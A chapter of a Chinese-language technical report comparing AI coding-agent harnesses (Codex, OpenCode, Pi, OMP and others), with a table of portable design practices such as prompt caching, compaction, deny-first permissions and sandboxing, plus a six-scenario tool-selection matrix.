

## 14. 可借鉴设计清单与选型建议

前两章以机制证据为主体，本章将其压缩为两份行动产物：一份面向 harness 自建者的 15 条可移植设计清单（14.1），一份面向选型者的六场景推荐矩阵（14.2）。收录标准：只收"机制已在源码或官方文档坐实"的设计；效果宣称被独立证据打折的，边界条件随条目标注；营销口径数字一律不进表。全部定量参数 as-of 2026-07-17，与全文参数核对值一致。两处对通行说法的修正需前置声明：其一，"各家 85%/75% 阈值共识"中的 75% 在九对象内无归属（疑指对照组或系笔误），本清单按各对象实参分别列出，不把 75% 安到任何一家头上；其二，"权限批准不跨 session 沉淀"的实证出处是 OpenCode 而非通常以为的 Claude Code——其 `approved` 规则仅存活于会话内存、不持久化，被安全横评明确评为好设计。建议有明确立场，但每条立场都附证据等级与风险，读者可按自家威胁模型对号入座。

### 14.1 自建 harness 的 15 条可移植设计

#### 14.1.1 按六层组织的最佳实践萃取（每条标注出处对象）

清单按本报告六层坐标系（第 1 章）组织。"出处对象"指该设计在六项目中机制证据最完整的实现者，证据坐标精确到文件或文档条目；等级沿袭 A/B/C 三级（A=源码/官方文档直读，B=第三方实证，C=未证实宣称）。一个刻意的取舍：第 7、12 条把正反两例合并为一行——结构化编辑格式与规则冲突语义都是"选什么范式"的单一决策点，正例与反例互为边界条件，拆开反而稀释决策密度。使用顺序建议：先抄纪律层条目（第 1–6、10、13 条，实现成本均在百行级），再评估机制层条目（第 7–9、11 条）是否匹配自家模型与语言分布。

| 层 | # | 可移植设计 | 出处对象 | 证据坐标 | 等级 | 移植代价与边界 |
|---|---|---|---|---|---|---|
| 感知 | 1 | 稳定前缀 + prompt-cache 纪律：静态内容固定在前、append-only，宁牺牲增量状态也保缓存命中 | mini、Codex | mini `WorkspaceContext` 稳定前缀（git 状态+AGENTS.md，1200 字截断）；Codex 无状态整段重放，官方明示 append-only 纪律 | A | 状态更新只能追加不可改写；动态增删工具会重建 system prompt、击穿缓存（Pi 文档有同款警示），工具集变更需纳入缓存模型管理 |
| 感知 | 2 | 信任决策先于内容加载：项目扩展/配置/技能在 trust 解决前不加载；不受门控的注入面必须文档化为预期风险 | Pi | `trust-manager.ts` 资源清单；项目扩展在 trust 解决前不加载；security.md 明示 AGENTS.md "loaded regardless of project trust" | A | 注入面（context 文件）与装载面（扩展）须分开治理；CODEX_HOME 注入、Yarn 钩子两案证明"先装载后信任"是事故温床 |
| 记忆 | 3 | 文件操作追踪跨压缩累积：readFiles/modifiedFiles 随历次压缩滚动合并进摘要正文 | Pi | `CompactionDetails{readFiles,modifiedFiles}` 累积合并 + 逐消息抽取（压缩路径源码） | A | 近乎零成本的确定性卫生，位于凹曲线左端（见 10.1.1）；摘要丢失文件清单是压缩后重复读文件的主因 |
| 记忆 | 4 | 非破坏性压缩优先：prune→摘要两级，本体留存储、仅送模型时清除 | OpenCode | `PRUNE_PROTECT=40000`/`PRUNE_MINIMUM=20000`（默认关）；"本体留存储、仅送模型时清除"以保前缀稳定 | A | 保护窗参数与 OMP 同值（40,000/20,000）系原语趋同产物（参数核对）；抄参数前应先看自家工具输出的 token 分布 |
| 记忆 | 5 | 阈值/预留额度触发压缩：按窗口余量提前动作，不等到溢出 | grok-build、Pi、OpenCode、OMP | 85%（grok-build `auto_compact_threshold_percent`）；`window−16384`（Pi）；`input−min(20000,maxOut)`（OpenCode）；`window−max(15%,reserve)`（OMP） | A | 阈值防的是溢出崩溃而非质量——模型在窗口 40–50% 处质量已崩（见 9.2.3），指望压缩救质量是误配预期 |
| 执行 | 6 | `stopReason=length` 整批拒执：截断消息携带的工具调用一律不执行，逐个报错请模型重发 | Pi | agent-loop.ts:383-408 `failToolCallsFromTruncatedMessage` | A | 流式 salvage parser 可能产出"合法但不完整"的参数，部分执行比全拒危险；代价是一次重试的延迟 |
| 执行 | 7 | 结构化编辑格式取代自由文本编辑：文法约束解码与锚定行编辑两条路线 | Codex、OMP | Codex `apply_patch.lark` 把 patch 文法编译进采样约束（纯数据、落盘前可静态审查）；OMP `packages/hashline` 哈希锚定行 | A（机制）/B（边界） | hashline 收益依模型与语言而异：弱模型收益大且稳，前沿模型互有胜负，独立复现 Python 场景回退（gemini-3-flash 95%→70%），"全胜每模型"已被证伪 |
| 执行 | 8 | 编译器/LSP 诊断注入编辑回路：edit 落盘后立即取诊断拼进工具输出，让类型系统替模型校对 | OpenCode、OMP | OpenCode edit.ts:196-202（`touchFile`→`diagnostics`→报告拼入输出）；OMP 14 个 LSP 操作 + format-on-write 诊断回传 | A | 代价是语言 server 生命周期管理与首次诊断延迟；hashline 作者基准自带 LSP 回路，评估编辑格式收益时需剥离这一混淆变量 |
| 控制 | 9 | 子代理回传 schema 化：以隐藏"交卷"工具按 frontmatter `output` schema 校验，父代理读 typed object 而非散文 | OMP | `yield` 隐藏工具 + 3 次提醒强制（task.md 及源码实测） | A | prose 回传是技术债（谱系见 9.3.2、10.1.7）；schema 须与子代理档案（frontmatter）联合设计，事后补 schema 成本高 |
| 控制 | 10 | steering 插话：用户/扩展消息在 turn 边界注入下一次 LLM 调用之前，不打断当前工具执行 | Pi | `getSteeringMessages` 起始与每 turn 末拉取；`getFollowUpMessages` 将停时续命 | A | 交互手感的关键来源；需预先定义插话（steer）与续命（followUp）的优先级与触发语义 |
| 安全 | 11 | 默认断网 + 可自测的前缀规则：argv 前缀匹配判定命令，规则加载期以 match/not_match 强制自测 | Codex | execpolicy（Starlark）`prefix_rule`；`workspace-write` 默认 `network_access=false`；加载期自测"规则写错在启动时爆炸而不是执行时放行" | A | 前缀语义对参数顺序敏感、覆盖面依赖枚举勤奋；真正价值在工程纪律而非语义本身 |
| 安全 | 12 | 规则冲突语义取 deny-first（黑名单永远赢、与书写顺序无关）；以"最后匹配获胜"为反例 | Claude Code（参照）、OpenCode（反例） | Claude Code deny>ask>allow；OpenCode `findLast`（permission/index.ts:28-38）在 10 层配置合并下无人能心算最终生效集 | A（OpenCode 源码）/B（Claude Code 文档） | deny-first 把风险转移到实现完备性：symlink 绕过、通配符失效、空数组语义反转已各产出一个 CVE——语义确定≠实现正确 |
| 安全 | 13 | 批准不跨 session 沉淀：一次性授权只存活于会话内存，重启即失效 | OpenCode | `approved` 规则仅会话内存、不持久化（安全横评评为好设计） | A | 注意与"always 级联放行同 session 其余 pending"并存时会放大一次错误裁决的爆炸半径，批处理/注入场景应限制级联 |
| 扩展 | 14 | 两层扩展上下文、权限最小化：事件处理器拿只读上下文，命令处理器才拿会话控制能力 | Pi | `ExtensionContext`（只读 sessionManager、getContextUsage 等）vs `ExtensionCommandContext`（newSession/fork/navigateTree 等） | A | 会话替换后旧捕获对象即失效（stale 访问抛错），生命周期语义须随 API 一并公布，否则扩展写出隐蔽 bug |
| 扩展 | 15 | 事件钩子 + 插件程序化裁决：把 `permission.ask` 开放给插件返回 allow/ask/deny，审批从人审升级为可编程策略点 | OpenCode | plugin/src/index.ts:261 裁决钩子；20+ 钩子含 tool.execute.before/after、shell.env | A | 钩子失败语义必须 fail-close——grok-build `pre_tool_use` 默认 fail-open（hook 失败不阻塞）是反例；Pi 的 tool_call 拦截（抛错即拦）是范本 |

清单的三条结构性观察。第一，15 条中 11 条证据等级为纯 A，且多数是"纪律"而非"机制"——稳定前缀、文件追踪、整批拒执、批准不沉淀的实现成本均在百行以内，与第 13 章 I1 的凹曲线结论互为印证：收益大头在便宜、确定、可复现的上下文卫生与安全默认值，而非机制堆叠。第二，出处分布高度集中：按出现频次（含联合出处）计，Pi 与 OpenCode 各出现于 6 条、OMP 4 条、Codex 3 条、mini 与 grok-build 各 1 条——极简派与电池派共同构成设计库的两极，而纸面安全机制数量九家第一的 grok-build 仅贡献一个阈值参数，再次坐实"有机制 ≠ 有设计、有保护"（见 12.1）。第三，按 I4 的收敛速度，机制层条目（第 7、8、9 条）的领先半衰期以月计——hashline 发布数月即被 opencode、kilocode、claude-code 三仓移植或讨论——真正难以复制的是纪律层条目背后的默认姿态与文档化诚实（如第 2 条把注入面明示为预期风险），抄机制易、抄姿态难。

### 14.2 分场景选型矩阵

#### 14.2.1 六场景推荐与理由

矩阵的第一维是"组织威胁模型 ↔ harness 默认姿态"（10.1.2，I2），功能对比只在第二维发挥作用；基准排名一律不作为选型依据——TB2.0 顶部已被证实存在 harness 级作弊，九对象中三家无正式条目，名次在当前证据条件下不可核验（10.1.6，I6），选型依据应是"默认姿态 + 采用度硬数据 + 可溯源事件"三件套。每个场景给首选、备选、一句理由、一句风险；数据 as-of 2026-07-17。

| 场景 | 首选 | 备选 | 理由（一句） | 风险提示（一句） |
|---|---|---|---|---|
| 教学 / 学习 | mini-coding-agent | Pi | 1,019 行纯标准库单文件、校验→防重→审批的五步闸可单步调试，18 项测试本机通过，已被第三方技能市场当作 canonical 教材（"Raschka 文章→mini 源码→pi-mono"路径） | 字符闸无 tokenizer、安全三件套仅教学量级，作者已明示与生产的界限，勿直接投产 |
| 个人折腾 / 定制 | 极简派选 Pi；电池派选 OMP | 互为备选 | Pi 以 792 行核心循环 + 约 30 个扩展事件给足改造面；OMP 把 MCP、task 子代理、审批、plan mode 全内置成 27 公开 + 2 隐藏工具平面，哲学分歧是"减法 vs 加法"且两派各有受众 | Pi 零内置安全需自带隔离，上手摩擦有 90 分钟失败实录（Discussion #3735）；OMP 效果宣称需打折，snapcompact 有端点兼容故障前科（#3387 致会话永久 400） |
| 团队默认 | OpenCode | Codex | 开放服务架构（HTTP/OpenAPI、SDK 同源生成）+ 多模型自由 + 186.6k stars 的采用度护城河，AGENTS.md 互读使迁移成本趋零，换 harness 不等于推翻团队指令资产 | 权限引擎官方自认 UX 层而非安全边界，有未授权 RCE 前科（HN 432pts）与 Anthropic OAuth 封禁史（2026-01-09），团队部署需在权限层之外另补隔离 |
| 企业合规 / 治理 | OpenCode（配置治理）或 Codex（执行治理） | 二者互补 | OpenCode 提供 `.well-known` 远程组织配置与 macOS MDM 共 10 层合并的集中管控面；Codex 提供默认沙箱 + 默认断网 + execpolicy 的执行侧合规基线，分别覆盖"配置从哪里生效"与"命令在哪里执行"两个审计问题 | OpenCode 10 层合并 × 最后匹配获胜几乎无人能心算最终生效集，需配层序可视化治理；Codex 有 CODEX_HOME 配置装载 CVE 史，且 yolo 档可一键拆光全部防护，企业侧应禁用 |
| 隔离敏感 / 离线 | Codex | Pi + Gondolin/Docker 外置隔离 | Codex 四档 SandboxPolicy（read-only→danger-full-access）以 OS 内核沙箱（Seatbelt/bwrap+seccomp）兜底、workspace-write 默认断网，是九家中唯一的"默认安全"完整答卷 | 避免 grok-build：全仓库上传事件证明其服务端 flag 可远程改变本地行为、源码审计看不见，信任重建前不适合隔离场景；Pi 路线把安全责任整体转移给部署方，合规评估须覆盖部署形态 |
| 多模型路由 | OMP | Pi | OMP 归一化约 45 个 provider、把九族工具调用方言（anthropic/harmony/qwen3/deepseek/glm-4.5/kimi-k2/gemini/gemma/pi-native）收进逐家族转换层，是"任意模型用同一套工具"的最重工程资产；Pi 的 registerProvider 即时生效 + ModelRuntime 动态目录是最轻接入面 | 多模型聚合正处厂商摩擦前沿：OMP 作者跑榜期间 Gemini 账号被封、Anthropic 已服务端封禁过第三方客户端，OAuth 聚合路线存在合规脆弱性，关键业务须备直连 API 退路 |

矩阵的三点解读。第一，grok-build 在六个场景中零首选、一次被点名避免——纸面机制数量与选型价值脱钩：安全机制默认全关（H12）剥夺其在企业/隔离场景的资格，全仓库上传事件（H13）再剥夺其在隐私敏感场景的资格，这是 I8"信任工程"四层（默认配置、遥测行为、供应链、市场治理）在行动层的直接投射；其剩余价值在组件级移植（worktree 隔离、pin 与回读机制）而非整体采用。第二，"首选 + 备选"呈稳定的成对结构：Pi↔OMP 是哲学分歧（社区定性"Pi bets on subtraction, Omp bets on accumulation"，两派各有受众），OpenCode↔Codex 是治理面互补（配置治理 vs 执行治理）；由于 AGENTS.md/SKILL.md 配置互读使迁移成本趋零（I3），这些成对选择不是终身承诺，团队可以低成本试错后在两极间滑动。第三，矩阵刻意回避一切榜单名次：Codex 的 TB2.0 #4 是自提交且未经独立审计的条目，OpenCode #64 是模型已换代的陈旧条目（经核实），在基准污染未被系统性清理之前，任何以名次支撑选型的论证都建在流沙上——改用采用度数据（npm 月下载 @openai/codex 49.3M / opencode-ai 9.0M / pi-ai 8.6M）、默认姿态审计与可溯源事件这三件可核验之物。

---
